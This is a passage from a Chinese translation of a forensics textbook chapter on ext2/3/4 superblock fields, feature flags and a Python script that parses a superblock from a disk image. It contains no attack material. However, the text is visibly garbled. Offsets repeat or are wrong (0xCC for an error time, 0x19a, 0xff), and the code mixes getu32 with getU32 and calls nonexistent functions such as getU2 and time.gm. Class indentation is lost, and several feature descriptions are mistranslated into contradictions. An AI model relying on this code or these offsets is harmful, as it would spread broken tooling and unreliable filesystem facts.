| 0x78 | char | volumename[16] | 卷标签。 |
| 0x88 | char | lastmounted[64] | 文件系统最后挂载的目录。 |
| 0xC8 | 4 | algorithmusagebitmap | 用于压缩（在 e2fsprogs/Linux 中未使用） |
| 0xCC | byte | preallocblocks | 为文件预分配的块。 |
| 0xCD | byte | preallocdirblocks | 为目录预分配的块。 |
| 0xCE | 2 | reserveddtblocks | GDT 条目数量。 |
| 0xD0 | 4 | journalauid[16] | 日志超级块的 UUID。 |
| 0xE0 | 4 | journalinum | 日志文件的 inode 号。 |
| 0xE4 | 4 | journaldev | 日志文件的设备号。 |
| 0xE8 | 4 | lastorphan | 待删除孤立节点列表的起始。 |
| 0xEC | 4 | hashseed[4] | HTREE 哈希种子。 |
| 0xFC | byte | defhashversion | 目录使用的默认哈希算法。 |
| 0xFD | byte | jnlbackuptype | 日志备份类型。 |
| 0xFE | 2 | descsize | 组描述符的大小。 |
| 0x100 | 4 | defaultmounts | 默认挂载选项。 |
| 0x104 | 4 | firstmetabg | 第一个超级块块组。 |
| 0x108 | 4 | mktime | 文件系统的创建时间。 |
| 0x10C | 4 | jnlblocks[17] | 日志 inode iblock[] 的备份副本。 |
| 0x150 | 4 | blockcount | 块计数的高 32 位。 |
| 0x154 | 4 | rblockcount | 预留块计数的高 32 位。 |
| 0x158 | 4 | freeblockcount | 空闲块计数的高 32 位。 |
| 0x15C | 2 | minextraisize | 所有节点至少有 # 字节。 |
| 0x15E | 2 | wantextraisize | 新节点应预留 # 字节。 |
| 0x160 | 4 | flags | 杂项标志。 |
| 0x164 | 2 | raidstride | RAID 间距。 |
| 0x166 | 2 | mmpinterval | 多计数等待秒数。 |
| 0x168 | 8 | mmpblock | 多保护数据的块。 |
| 0x170 | 4 | stripewidth | RAID 条带宽度。 |
| 0x174 | byte | loggroupper | 灵活块组大小。 |
| 0x175 | byte | checksumtype | 元数据校验和算法。 |
| 0x176 | 2 | reservedpad | 对齐。 |
| 0x178 | 8 | kbytetwriten | 写入此文件系统的 KB。 |
| 0x180 | 4 | snapshotinum | 活动快照的 inode 号。 |
| 0x184 | 4 | snapshot | 活动快照的顺序 ID。 |
| 0x188 | 8 | snapshotblockcount | 活动快照预留的块数。 |
| 0x190 | 4 | snapshotlist | 快照头部的 inode 号。 |
| 0x194 | 4 | errorcount | 错误次数。 |
| 0x198 | 4 | firsterrortime | 第一次错误的时间。 |
| 0x19C | 4 | firsterrorino | 第一次错误的 inode。 |
| 0x1A0 | 8 | firsterrorblock | 第一次错误涉及的块。 |
| 0x1A8 | byte | firsterrorfunc[32] | 发生错误的函数名称。 |
| 0x1C8 | 4 | firsterrorline | 发生错误的行号。 |
| 0xCC | 4 | lasterrortime | 最近一次错误的时间。 |
| 0x1D0 | 4 | lasterrorino | 最近一次错误的的 inode。 |
| 0x1D4 | 4 | lasorterline | 最近一次错误发生的行号。 |
| 0x1D8 | 8 | lasrorblock | 最近一次错误涉及的块。 |
| 0x1E0 | byte | lasrorfunc[32] | 最近一次错误的函数。 |
| 0x200 | byte | mountpoints[64] | 挂载选项的 ASCII 字符串。 |
| 0x240 | 4 | usquotainum | 用户配额文件的 inode。 |
| 0x244 | 4 | grpquotainum | 组配额文件的 inode。 |
| 0x248 | 4 | overheadblocks | 文件系统中的开销块/簇。 |
| 0x24C | 4 | backupbackgs[2] | 包含超级块备份的块组。 |
| 0x24E | 4 | encryptalgos[4] | 使用的加密算法。 |
| 0x252 | 4 | reserved[105] | 块填充。 |
| 0x3FC | 4 | checksum | 超级块校验和。 |

使用 Active@ Disk Editor 时，我建议通过选择“Open in Disk Editor”来打开每个卷，如图 7.6 所示。这会创建一个你的文件系统逻辑视图的新标签页。这种逻辑视图比原始物理视图更方便，因为由于其他因素，它会自动应用一些内置模板。如果你在 Windows 文件系统上使用此工具，它还会将簇翻译为扇区。


图 7.6
在 Active@ Disk Editor 中打开卷的逻辑视图。

# 扩展文件系统特性

如前所述，扩展文件系统支持许多可选特性。这些特性分为兼容特性、不兼容特性和只读兼容特性。这些类型特性的详细信息见下。

你可能会奇怪为什么法医检查人员应该关心特性。这是一个非常合理的问题。有几个原因使得这与法医学有关。首先，特性可能会影响块组的结构。其次，这反过来影响数据的位置。第三，特性影响数据的存储方式。例如，取决于所使用的特性，某些数据可能存储在节点中，而不是其通常的数据块位置中。第四，某些特性可能会产生用于分析的新元数据源。

# 兼容性特性

兼容性特性本质上是锦上添花的。换句话说，如果你支持此特性，那太棒了；如果不支持，请随时以可读写方式挂载使用文件系统。虽然你可以挂载此文件系统，但你不应该对其运行 `fsck`（文件系统检查）工具，因为你可能会破坏与这些可选特性相关的内容。本文目前的兼容性特性列表总结在表 7.2 中。

表 7.2 兼容性特性。

| 位 | 名称 | 描述 |
|---|---|---|
| 0x1 | Dir Prealloc | 目录预分配 |
| 0x2 | Imagic nodes | 只有影子才知道 |
| 0x4 | Has Journal | 具有日志 (Ext3 和 Ext4) |
| 0x8 | Ext Attr | 支持扩展属性 |
| 0x10 | Resize Inode | 为扩展预留的组描述符条目 |
| 0x20 | Dir Index | 具有目录索引 |
| 0x40 | Lazy BG | 未初始化块组的支持（不常见） |
| 0x80 | Exclude Inode | 不常见 |
| 0x100 | Exclude Bitmap | 不常见 |
| 0x200 | Sparse Super2 | 如果设置，superblock_bgs 指向包含超级块备份的 2 个块组 |

表 7.2 中的第一个功能是**目录预分配**（Directory Preallocation）。当启用此功能时，操作系统在每次创建目录时都会分配一些空间。这样做是为了防止目录碎片，从而提高性能。虽然这很有用，但很容易理解为什么即使操作系统不支持这种优化，维护文件系统也是没有问题的。

如果文件系统具有日志（journal），则设置第 2 位（值为 0x04）。对于 `ext3` 和 `ext4` 文件系统，此位应始终被设置。这是一个兼容性功能，因为如果你不是通过日志进行读写，那么读写文件系统在某种程度上是安全的。

如果内核支持扩展属性，则设置第 4 位（值为 0x08）。扩展属性的首次用法是访问控制列表（ACL）。还支持其他类型的扩展属性，包括用户指定的。我们将在本章节后面学习更多关于扩展属性的内容。

当使用**节点调整**（Resize Node）功能时，每个包含组描述符的块将会有额外的空间用于文件系统的未来扩展。通常，文件系统可以增长到其当前大小的 1024 倍，因此此功能会导致组描述符表中产生大量的空空间。正如我们在本章后面将看到的，启用某些功能可以消除在每个块中存储组描述符的操作。

在扩展文件系统中，目录通常以平坦格式（条目的简单列表）存储。这适用于目录较小的情况，但当目录较大时可能会导致性能缓慢。当启用**目录索引**（Directory Index）功能时，部分或所有目录可能会被索引以加快搜索速度。

通常在创建扩展文件系统时，所有的块组都会被初始化（置为 0）。当启用**延迟块组**（Lazy Block Group）功能时，创建文件系统可以不正确初始化块组中的元数据。这种功能并不常见，**排除节点**（Exclude Node）和**排除位图**（Exclude Bitmap）功能也同样如此。

在通用的扩展文件系统中，超级块（superblock）在每一个块组中都有备份。有许多功能可以更改这种行为。现代介质比其先驱可靠得多。因此，浪费磁盘空间来存储数百个超级块备份没有意义。当启用**稀疏 2**（Sparse 2）功能时，唯一的超级块备份位于超级块中数组列出的两个块组中。

现在我们已经学习了所有的兼容性功能，我们可能会问哪些功能影响我们的数据布局。该类别中影响文件系统布局的两个功能是**节点调整**和**稀疏 2**，它们分别在组描述符表中添加空间，并缓存超级块备份以将其从除两个组以外的所有组中移除。

如何从 Linux 扩展文件系统中获取功能和其他信息？意不意外的是，有很多工具可用。第一个工具是 `stat`（统计）命令，它通常用于文件，但也可以用于文件系统。在普通文件上运行此命令的语法为 `stat <filename>`，例如 `stat *.mp3`。在某些 MP3 文件上运行 `stat` 的结果如图 7.7 所示。在文件系统上运行 `stat` 的命令是 `stat -f <point>`，例如 `stat -f /`。我的笔记本电脑上运行 `stat -f /` 的输出如图 7.8 所示。注意，显示了文件系统 ID、类型、块大小、总/空闲/可用块，以及总/空闲 inode。


图 7.7

在普通文件上运行 `stat` 命令。


# 图 7.8

与 `stat` 命令一样，`file` 命令也可以应用于文件或文件系统。在文件上运行时，`file` 命令将显示文件类型。在决定如何处理文件方面，Linux 比 Windows 小得多。Linux 会查看文件内部的文件签名，而 Windows 只使用文件扩展名来确定如何处理。在图 7.7 的 MP3 文件上运行 `file` 的结果如图 7.9 所示。在磁盘设备上运行时，应使用 `-s`（特殊文件）和 `-L`（跟踪链接）选项。图 7.10 显示了我的笔记本电脑上运行 `file -sl /dev/sd*` 的结果。


`root@i7laptop:~/Videos# file *.mp3`

HDV 0081.mp3: MPEG ADTS, layer III, v1, 128 kbps, 48 kHz, JointStereo

HDV 0083.mp3: MPEG ADTS, layer III, v1, 128 kbps, 48 kHz, JointStereo

HDV 0084.mp3: MPEG ADTS, layer III, v1, 128 kbps, 48 kHz, JointStereo

HDV 0085.mp3: MPEG ADTS, layer III, v1, 128 kbps, 48 kHz, JointStereo

the marines hymn.mp3: Audio file with ID3 version 2.3.0, contains: MPEG ADTS, layer III, v1, 128 kbps, 44.1 kHz, JointStereo

`root@i7laptop:~/Videos#`

# 图 7.9

在 `i7laptop:~/Videos` 上针对普通文件运行 `file` 命令的输出。

```
root@i7laptop:~/Videos# file -sl /dev/sd*
```

`/dev/sda1`: Linux partition, GPT table, LFS root, size 50 GiB, type Linux ext4 data

`/dev/sda2`: Linux partition, GPT table, LFS swap, size 8.0 GiB, type Linux swap-data

`/dev/sda3`: Linux partition, GPT table, LFS home, size 200 GiB, type Linux ext4 data

`/dev/sda4`: Linux partition, GPT table, LFS backup, size 100 GiB, type Linux ext4 data

`/dev/sda5`: Linux partition, GPT table, LFS media, size 500 GiB, type Linux ext4 data

`/dev/sda6`: Linux partition, GPT table, LFS games, size 300 GiB, type Linux ext4 data

`/dev/sda7`: Linux partition, GPT table, LFS projects, size 150 GiB, type Linux ext4 data

`/dev/sda8`: Linux partition, GPT table, LFS work, size 100 GiB, type Linux ext4 data

`/dev/sda9`: Linux partition, GPT table, LFS test, size 50 GiB, type Linux ext4 data

# 图 7.10

从图 7.10 可以看出 Linux 具有日志功能、使用区（extents）并支持大文件。这些功能将在本章节后面进行详细描述。

元块组（Meta Block Group）将文件系统分为许多元块组，其大小使得组描述符可以存储在单个块中。这使得大于 256 TB 的文件系统变得可用。

区范围（Extents）功能允许更高效地处理大文件。区范围与 NTFS 的数据运行（data runs）类似，它们都允许更高效地存储和访问大文件。本章稍后部分将详细讨论区范围。

64位功能将最大块数从 `$2^{32}$` 增加到 `$2^{64}$`。这并不是一个常见的功能，因为 32 位模式支持多达 256 PB 的文件系统。它在需要较小块大小的场景中更为常见，例如存储大量小文件的服务器。

多重挂载保护（Multiple Mount Protection）功能用于检测是否有多个操作系统或进程正在使用某个文件系统。当启用此功能时，任何尝试挂载已挂载文件系统的操作将失败。作为双重检查，系统会定期重新检查挂载状态（序列号），如果操作系统检测到另一个系统挂载了该文件系统，则文件系统将保持为只读状态。

与区范围类似，灵活块（flexible blocks）被用于更高效地处理大文件。当启用灵活块组（Flex Block Group）功能时，相邻块组中的某些项会被移动，以便在某些组中留更多数据块，从而大文件更有机会连续存储。此功能通常与区范围结合使用。

扩展属性（Extended attributes）在上一节中讨论过。如果支持扩展属性，它们可能存储在节点（inodes）或数据块中。如果设置了扩展属性内（Extended Attribute In）标志，则操作系统必须支持在扩展属性存在的任何地方从节点中读取扩展属性。

我们已经看到了几项允许更高效地处理大文件的功能。目录数据（Directory Data）功能是针对小文件的优化。当启用此功能时，小文件可以完全存储在它们的目录条目中。较大的文件可能被划分在目录条目和数据块之间。由于前几个字节包含文件签名，将文件的开头放在目录条目中可以加快操作，因为不再需要读取数据块来确定文件类型。内联数据（Inline Data）功能与之类似，但数据存储在节点中而不是目录条目中。

剩余的不兼容功能分别是组元数据校验和（Group Meta Checksum）、大目录（Large Directory）和加密（Encrypt），它们分别表示元数据的校验和存储在块组中、存在大于 2 GB 或使用 3 级哈希树的目录，以及节点已加密。这些功能均不常见。

对于所有不兼容的功能，我们最感兴趣的是那些影响文件系统布局的项。有三项此类功能：灵活块（Flexible Block）、元块（Meta Block）和 64 位模式（64-bit Mode）。灵活块组将多个块组组合在一个灵活组中。灵活组的大小通常是 2 的幂。数据和节点位图仅存在于灵活组中的第一个块组中。这使得某些组完全由数据块组成，从而大文件可以在不产生碎片的情况下进行存储。

当使用元块组时，文件系统被划分为几个称为元块组的逻辑分区。组描述符只位于每个元块组的第一个、第二个和最后一个块组中。

使用 64 位模式不会直接影响文件系统布局。相反，其影响是间接的，因为当在使用 64 位模式时，某些结构的大小会增加。

## 只读兼容特性

只读兼容特性要求能够修改数据，但不需要能够正确读取数据。显然，你不应该针对文件系统运行其中一个或多个此类特性的 `fsck`。只读兼容特性总结在表 7.4 中。

### 表 7.4. 只读兼容特性。

| 位 | 名称 | 描述 |
|---|---|---|
| 0x1 | Sparse Super | 稀疏超级块（仅在 BG 0 或 3, 5, 7 的幂次中） |
| 0x2 | Large File | 文件系统中存在大于 2GB 的文件 |
| 0x4 | Btree Dir | 目录中使用了 B 树（不常见） |
| 0x8 | Huge File | 文件大小以逻辑块表示，而非扇区 |
| 0x10 | Gdt Csum | 组描述符表具有校验和 |
| 0x20 | Dir Nlink | 子目录条目数不限于 32k 个 |
| 0x40 | Extra Isize | 表示文件系统中存在大节点 |
| 0x80 | HasSnapshot | 文件系统具有快照 |
| 0x100 | Quota | 文件系统正在使用磁盘配额 |
| 0x200 | BigAlloc | 区范围在多块簇中进行跟踪 |
| 0x400 | Metadata Csum | 元数据项使用了校验和 |
| 0x800 | Replica | 文件系统支持副本 |
| 0x1000 | ReadOnly | 应该仅挂载为只读 |

当使用超级块功能时，超级块仅位于块组 0 或位为 3, 5, 7 的幂次的的块组中。如果文件系统中至少有一个大于 2 GB 的文件，则 Large File 特性标志将被设置。Huge File 特性标志表示至少存在一个大文件。大文件的大小以簇指定（大小存储在超级块中），而非数据块。

Btree 目录功能允许大目录存储在二叉树中。这并不常见。另一个与大目录相关的特性是目录链接数（Directory Nlink）。当设置 Nlink 标志时，子目录的条目数不限于 32k 个。

遍历了大部分代码，但并非所有代码。关于格式的说明：原本位于行尾的许多注释已移动到行上方，以便使书中的代码更易读。

```python
#!/usr/bin/python

#
# extfs.py
#
# 这是一个简单的 Python 脚本，用于
# 从镜像文件内部的 ext2/3/4 文件系统中
# 获取元数据
#
### 为 PentesterAcademy 开发
# 作者 Phil Polstra 博士 (@ppolstra)
import sys
import os.path
import subprocess
import struct
import time
# 这些是为了方便转换的简单函数
```


```python
def getu32(data, offset=0):
    return struct.unpack('<L', data[offset:offset+4])[0]

def getu16(data, offset=0):
    return struct.unpack('<H', data[offset:offset+2])[0]

def getu8(data, offset=0):
    return struct.unpack('B', data[offset:offset+1])[0]

def getu64(data, offset=0):
    return struct.unpack('<Q', data[offset:offset+8])[0]

# 此函数不解包字符串，因为
# 它不是真正的数字而是一个 UUID
def getu128(data, offset=0):
    return data[offset:offset+16]

def printUuid(data):
    retStr = \
    format(struct.unpack('<Q', data[8:16])[0], 'X').zfill(16) + \
    format(struct.unpack('<Q', data[0:8])[0], 'X').zfill(16)
    return retStr

def getCompatibleFeaturesList(u32):
    retList = []
    if u32 & 0x1:
        retList.append('Directory Preallocate')
    if u32 & 0x2:
        retList.append('Immutable Inodes')
    if u32 & 0x4:
        retList.append('Has Journal')
    if u32 & 0x8:
        retList.append('Extended Attributes')
    if u32 & 0x10:
        retList.append('Resize Node')
    if u32 & 0x20:
        retList.append('Directory Index')
    if u32 & 0x40:
        retList.append('Lazy Block Groups')
    if u32 & 0x80:
        retList.append('Exclude Inode')
    if u32 & 0x100:
        retList.append('Exclude Bitmap')
    if u32 & 0x200:
        retList.append('Sparse Super 2')
    return retList

def getIncompatibleFeaturesList(u32):
    retList = []
    if u32 & 0x1:
        retList.append('Compression')
    if u32 & 0x2:
        retList.append('Filetype')
    if u32 & 0x4:
        retList.append('Recover')
    if u32 & 0x8:
        retList.append('Journal Device')
    if u32 & 0x10:
        retList.append('Meta Block Groups')
    if u32 & 0x40:
        retList.append('Extents')
    if u32 & 0x80:
        retList.append('64-bit')
    if u32 & 0x100:
        retList.append('Multiple Mount Protection')
    if u32 & 0x200:
        retList.append('Flexible Block Groups')
    if u32 & 0x400:
        retList.append('Extended Attributes in Inodes')
    if u32 & 0x1000:
        retList.append('Directory Data')
    if u32 & 0x2000:
        retList.append('Block Group Metadata Checksum')
    if u32 & 0x4000:
        retList.append('Large Directory')
    if u32 & 0x8000:
        retList.append('Inline Data')
    if u32 & 0x10000:
        retList.append('Encrypted Inodes')
    return retList

def getReadOnlyCompatibleFeaturesList(u32):
    retList = []
    if u32 & 0x1:
        retList.append('Sparse Super')
    if u32 & 0x2:
        retList.append('Large File')
    if u32 & 0x4:
        retList.append('Btree Directory')
    if u32 & 0x8:
        retList.append('Huge File')
    if u32 & 0x10:
        retList.append('Group Descriptor Table Checksum')
    if u32 & 0x20:
        retList.append('Directory Nlink')
    if u32 & 0x40:
        retList.append('Extra Isize')
    if u32 & 0x80:
        retList.append('Has Snapshot')
    if u32 & 0x100:
        retList.append('Quota')
    if u32 & 0x200:
        retList.append('Big Alloc')
    if u32 & 0x400:
        retList.append('Metadata Checksum')
    if u32 & 0x800:
        retList.append('Replica')
    if u32 & 0x1000:
        retList.append('Read-only')
    return retList

# 此 Superblock 将解析 superblock中的数据
class Superblock:
    def __init__(self, data):
        self.totalInodes = getu32(data)
        self.totalBlocks = getu32(data, 4)
        self.restrictedBlocks = getu32(data, 8)
        self.freeBlocks = getu32(data, 0xc)
        self.freeInodes = getu32(data, 0x10)
        # 通常块大小为 <4k
        self.firstDataBlock = getu32(data, 0x14)
        # 块大小为 1024 * 2^(字段的值)
        self.blockSize = getu32(data, 0x18)
        # 如果启用 bigalloc
        self.clusterSize = getu32(data, 0xc)
        self.blocksPerGroup = getu32(data, 0x20)
        # 如果启用 bigalloc
        self.clustersPerGroup = getu32(data, 0x24)
        self.inodesPerGroup = getu32(data, 0x28)
```


```python
self.mountTime = time.ctime(getu32(data, 0x2c))

self.writeTime = time.ctime(getu32(data, 0x30))

# 自 fsck 以来的挂载次数

self.mountCount = getu16(data, 0x34)

# fsck 之间的挂载次数

self.maxMountCount = getu16(data, 0x36)

self.magic = getu16(data, 0x38) # 应为 0xef530001/0002/0004 =干净卸载/错误/孤立节点

self.state = getu16(data, 0xa)

# 错误 1/2/3 继续/只读

self.errors = getu16(data, 0x3c)

self.minRevision = getu16(data, 0x3e)

# 上次 fsck 时间

self.lastCheck = time.ctime(getu32(data, 0x40))

# 检查间隔秒

self.checkInterval = getu32(data, 0x44)

# 0/1/2/3/4 Linux/Hard/FreeBSD

self.creatorOs = getu32(data, 0x48)

# v2 动态 inode 大

self.revisionLevel = getu32(data, 0x4c)

# 预留块的 UID

self.defaultUid = getu16(data, 0x50)

# 预留块的 GID

self.defaultGid = getu16(data, 0x52)

# 仅限 Ext4 动态 revisionLevel superblock

# 第一个非预留 inode

self.firstInode = getu32(data, 0x54)

# inode 大小，字节

self.inodeSize = getu16(data, 0x58)

# 此 superblock 所在的块组

self.blockGroupNumber = getu16(data, 0x5a)

# 兼容性特性

self.compatibleFeatures = getu32(data, 0x5c)

self.compatibleFeaturesList = \
    getCompatibleFeaturesList(self.compatibleFeatures)

# 不兼容特性

self.incompatibleFeatures = getu32(data, 0x60)

self.incompatibleFeaturesList = \
    getIncompatibleFeaturesList(self.incompatibleFeatures)

# 只读兼容性特性

self.readonlyCompatibleFeatures = getu32(data, 0x64)

self.readonlyCompatibleFeaturesList = \
    getReadOnlyCompatibleFeaturesList(
        self.readonlyCompatibleFeatures)

# 以包字符串形式保留卷 UUID

self.uuid = getu128(data, 0x68)

# 卷名 - 可能为空

self.volumeName = data[0x78:0x88].split("\x00")[0]

# 最后挂载的目录

self.lastMounted = data[0x88:0xc8].split("\x00")[0]

# 用于压缩

self.algorithmUsageBitmap = getu32(data, 0xc8)

# ext4未使用

self.preallocBlocks = getu8(data, 0xcc)

# 仅用于 DIR_PREALLOC 特性

self.preallocDirBlock = getu8(data, 0xcd)

# 为未来扩展预留的块

self.reservedGdtBlocks = getu16(data, 0xce)

# 日志 superblock 的 UUID

self.journalUuid = getu128(data, 0xd0)

# 日志 inode 号

self.journalNode = getu32(data, 0xe0)

# 外部日志设备号

self.journalDev = getu32(data, 0xe4)

# 待删除孤立 inode 列表

self.lastOrphan = getu32(data, 0xe8)

self.hashSeed = []

self.hashSeed.append(getu32(data, 0xff)) # htree 哈种子

self.hashSeed.append(getu32(data, 0xf0))

self.hashSeed.append(getu32(data, 0xf4)) # 0/1/2/3/4 有符号哈/无符号哈/测试

self.hashVersion = getu8(data, 0xfc)

self.journalBackupType = getu8(data, 0xfd)

# 64位位描述符大小

self.descriptorSize = getu16(data, 0xfe)

self.defaultMountOptions = getu32(data, 0x100)

# 仅用于 meta 特性

self.firstMetaBlockGroup = getu32(data, 0x104)

# 文件系统何时创建

self.mkfTime = time.ctime(getu32(data, 0x108))

self.journalBlocks = []

# 日志节点副本和最后两个元素

for i in range(0, 17):
    self.journalBlocks.append(getu32(data, 0x10c + i*4))

# 仅限 64 位模式

self.blockCountHi = getu32(data, 0x150)

self.reservedBlockCountHi = getu32(data, 0x154)

self.freeBlocksHi = getu32(data, 0x158)

# 所有节点至少足够的空间

self.minInodeSize = getu16(data, 0x15c)

# 新 inode 可能会预留多少字节

self.wantInodeSize = getu16(data, 0x15e)

# 1/2/4 有符号哈/无符号哈/测试代码

self.miscFlags = getu32(data, 0x160)

# 从 RAID 读取到移动到下一个目录的逻辑块

self.raidStride = getu16(data, 0x164)

# 多次挂载计数之间的秒数

self.mmpInterval = getu16(data, 0x166)

# MMP 数据块号

self.mmpBlock = getu64(data, 0x168)
```


# 回到此磁盘前的读/写块数量
```python
self.raidStripeWidth = getU32(data, 0x170)
```
# 每个 flex group 的组数
```python
self.groupsPerFlex = getU8(data, 0x174)
```
# crc32 时应为 1
```python
self.metadataType = getU8(data, 0x175)
self.reservedPad = getU16(data, 0x176) # 应为 0
```
# 截止为止写入的千字节
```python
self.kilobytesWritten = getU64(data, 0x178)
```
# 活跃快照的 inode
```python
self.snapshotInode = getU32(data, 0x180)
```
# 活跃快照的 ID
```python
self.snapshotId = getU32(data, 0x184)
```
# 为快照预留的块
```python
self.snapshotReservedBlocks = getU64(data, 0x188)
```
# 快照头部的 inode 号
```python
self.snapshotList = getU32(data, 0x190)
self.errorCount = getU32(data, 0x194)
```
# 首次检测时间
```python
self.firstErrorTime = time.gm(getU32(data, 0x198))
self.firstErrorInode = getU32(data, 0x19c) # 有罪的 inode
self.firstErrorBlock = getU64(data, 0x19a) # 有罪的块
self.firstErrorFunction = data[0xa8:0xc18].split("\x00") # 发生错误的行号
self.lastErrorLine = getU32(data, 0x1c8)
```
# 最后检测时间
```python
self.lastErrorTime = time.gm(data, 0x1cc)
self.lastErrorInode = getU32(data, 0x1d0) # 有罪的 inode
```
# 发生错误的行号
```python
self.lastErrorLine = getU32(data, 0x1d4)
self.lastErrorBlock = getU64(data, 0x1d8) # 有罪的块
self.lastErrorFunction = data[0xe0:0x200].split("\x00") # 空终止挂载选项字符串
self.mountOptions = data[0x200:0x240].split("\x00") # 用户配额文件的 inode
self.userQuotaInode = getU32(data, 0x240)
```
# 组配额文件的 inode
```python
self.groupQuotaInode = getU32(data, 0x244)
self.overheadBlocks = getU2(data, 0x248) # 应为 0
self.backupGroups = [getU2(data, 0x24c), getU2(data, 0x250)] # 仅限稀疏
self.encryptionAlgorithms = []
for i in range(0, 4):
    self.encryptionAlgorithms.append(getU2(data, 0x254 + i*4))
self.checksum = getU2(data, 0x3fc)
```

```python
def initState(self):
    # 0001/0002/0004 清洁卸载/孤立节点
    retVal = "Unknown"
    if self.state == 1:
        retVal = "清洁卸载"
    elif self.state == 2:
        retVal = "检测到错误"
    elif self.state == 4:
        retVal = "正在恢复孤立节点"
    return retVal
```

```python
def printErrorBehavior(self):
    # 当错误 1/2/3 时继续/只读/崩溃
    retVal = "Unknown"
    if self.errors == 1:
        retVal = "继续"
    elif self.errors == 2:
        retVal = "重新挂载为只读"
    elif self.errors == 3:
        retVal = "内核崩溃"
    return retVal
```

```python
def printCreator(self):
    # 0/1/2/3/4 Linux/Hurd/Masix/FreeBSD/Lites
    retVal = "Unknown"
    if self.creatorOs == 0:
        retVal = "Linux"
    elif self.creatorOs == 1:
        retVal = "Hurd"
    elif self.creatorOs == 2:
        retVal = "Masix"
    elif self.creatorOs == 3:
        retVal = "FreeBSD"
    elif self.creatorOs == 4:
        retVal = "Lites"
    return retVal
```

```python
def printHashAlgorithm(self):
    # 0/1/2/3/4/5 旧版/半 MD4/tea/u-legacy/u-half MD4/u-Tea
    retVal = "Unknown"
    if self.hashVersion == 0:
        retVal = "旧版"
    elif self.hashVersion == 1:
        retVal = "半 MD4"
    elif self.hashVersion == 2:
        retVal = "Tea"
    elif self.hashVersion == 3:
        retVal = "无签名旧版"
    elif self.hashVersion == 4:
        retVal = "无签名半 MD4"
    elif self.hashVersion == 5:
        retVal = "无签名 Tea"
    return retVal
```

```python
def printEncryptionAlgorithms(self):
    enclist = []
    for v in self.encryptionAlgorithms:
        if v == 1:
            enclist.append('256-bit AES in XTS mode')
        elif v == 2:
            enclist.append('256-bit AES in GCM mode')
        elif v == 3:
            enclist.append('256-bit AES in CBC mode')
        elif v == 0:
            pass
        else:
            enclist.append('Unknown')
    return enclist
```

```python
def prettyPrint(self):
    for k, v in self.__dict__.items():
        if k == 'mountTime' or k == 'writeTime' or \
            k == 'lastCheck' or k == 'mkfsTime' or \
            k == 'firstErrorTime' or k == 'lastErrorTime':
            print(k+":", time.asctime(v))
        elif k == 'state':
            print(k+":", self.initState())
        elif k == 'errors':
            print(k+":", self.printErrorBehavior())
        elif k == 'uuid' or k == 'journalUuid':
            print(k+":", self.printUuid(v))
        elif k == 'creatorOs':
            print(k+":", self.printCreator())
        elif k == 'hashVersion':
            print(k+":", self.printHashAlgorithm())
        elif k == 'encryptionAlgorithms':
            print(k+":", self.printEncryptionAlgorithms())
        else:
            print(k+":", v)
```

```python
def usage():
    print("usage " + sys.argv[0] +
          "<镜像文件> <扇区偏移>"
          "从镜像文件中读取 superblock")
    exit(1)
```

```python
def main():
    if len(sys.argv) < 3:
        usage()
    # 读取第一个扇区
    if not os.path.isfile(sys.argv[1]):
        print("File " + sys.argv[1] +
              "无法打开进行读取")
        exit(1)
    with open(sys.argv[1], 'rb') as f:
        f.seek(1024 + int(sys.argv[2]) * 512)
        sbRaw = f.read(1024)
    sb = Superblock(sbRaw)
    sb.prettyPrint()
```

```python
if __name__ == "__main__":
    main()
```

通常 `shebang` 后面跟着几个 `import` 语句。然后定义了一些如 `getU32` 等的辅助函数，它们接收一个带有可选偏移的包字符串并返回相应的值。所有这些函数都使用了 `struct.unpack`。创建这些函数是为了让后续代码更整洁、易读。接下来你将看到 `printUuid` 函数，它以正确的格式打印 UUID。后面是三个函数，返回表示兼容、不兼容和只读特性的字符串列表。这三个函数使用位与逻辑运算符 `&` 来测试相应的位是否被设置。像所有标准的 Python 类一样，它从一个构造函数开始，在 Python 中会被调用 `__init__`。该构造函数由脚本开头对辅助函数的长列表组成。该构造函数的大部分是直观的。一些不明显的行被注释掉了。`superblock` 中有很多时间字段。所有这些字段存储的都是自纪元（1970年1月1日午夜）以秒计算的时间。通过 `time.gm(<seconds since epoch>)` 将这些转换为时间。例如，`self.mountTime = time.gm(getU32(data, 0x2c))` 用于设置 `Superblock` 类中的 `mountTime` 变量。该函数使用了 `split` 函数。`split` 函数用于根据字符或字符集分割字符串。`split` 的语法为 `string.split(<string [,separators],[max split]>)`。如果没有指定分隔，则按空白字符分割。如 `self.volumeName = data[0x78]` 这样的行用于按空字节（`"\x00"`）分割字符串并仅保留空字节之前的所有内容。这是为了防止我们的之后出现随机字节。创建一个空列表并使用 `append` 函数将项添加到列表中。还有一些以 2 的幂形式存储的大小。除了上述提到的异常外，没有书中讨论的新技术。`Superblock` 类定义了几个函数，以友好的方式打印文件系统、错误行为、操作系统、哈希算法和加密算法。`Superblock` 以一个 `pretty` 函数结束，用于打印 `superblock` 对象中包含的所有信息。该函数使用一个所有 Python 对象都隐式定义的字典。对于 Python 初学者来说，字典本质上是一个列表，但有一个重要的区别：它不是使用整数索引作为键从列表（值）中检索项，而是使用字符串作为键。使用空方括号 `[]` 定义空列表，花括号 `{}` 创建空字典。像列表一样，字典用于检索项。同样，与列表一样，存储在字典中的项可以是不同类型。应该注意的是，字典中的项没有顺序，因此添加项的顺序无关。Python 为每个对象创建的隐式定义字典是 `__dict__`。键和值与对象中存储的类型相同。`Superblock.prettyPrint` 中的 `for k, v in self.__dict__.items() :` 行演示了创建遍历字典循环的语法。`prettyPrint` 中的 `if/elif/else` 块用于打印这些项。

位置。请记住超级块（`superblock`）长度为 1024 字节，并从文件系统的第 1024 字节处开始。一旦读取了正确的字节，就会将它们传递给 `Superblock` 构造函数，位于 `sb = Superblock(sbRaw)`，然后在下一行打印超级块的字段，`sb.prettyPrint()`。

在 PFE 目标系统上运行此新脚本的部分结果如图 7.11 所示。检查图 7.11，你会发现该目标系统具有以下只读兼容特性：稀疏求和（Sparse Sum）、大文件（Large File）、巨大文件（Huge File）、组描述符表校验和（Group Descriptor Table Checksum）、目录链接数（Directory Nlink）和额外大小（Extra Size）。将其与图 7.3 比较，你会发现 Sleuth 类具有两个特性：组描述符表校验和和目录链接数！为了继续构建关于我们文件系统如何组织的完整蓝图景，我们必须读取块组描述符。


图 7.11

读取超级块信息的脚本的部分输出。

## 读取块组描述符

块组描述符比超级块简单得多且更小。请记住，这些组描述符长度为 32 字节，除非 `ext4` 文件系统使用了 64 位模式，在这种情况下它们的长度为 64 字节。以下代码定义了一个 `GroupDescriptor` 类。与 `Superblock` 类一样，通常位于行尾的注释被放置在行上方，以便在书中更具读性。

```python
```


